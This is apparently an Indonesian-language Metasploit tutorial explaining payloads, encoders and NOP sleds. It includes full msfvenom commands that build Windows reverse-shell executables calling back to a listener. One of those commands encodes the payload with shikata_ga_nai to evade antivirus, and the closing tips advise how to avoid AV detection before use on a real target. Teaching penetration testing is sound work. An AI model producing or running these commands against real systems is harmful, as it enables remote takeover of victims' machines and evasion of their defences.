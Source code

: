 # Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:
- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

**Contoh Payload Populer:**

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters)

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`)

**Contoh Encoder:**

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| x86 | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | Windows |Menyandikan payload sebagai perintah echo |
| `generic/none` | All | Tidak menggunakan encoding |

**Contoh Penggunaan Encoder:**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

**Keterangan:**
- `-e`: Encoder yang digunakan
- `-i`: Jumlah iterasi encoding

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:
- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

**Keterangan:**

- `-n 16`: Menambahkan 16 byte NOP sled.

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:
- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan

- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.
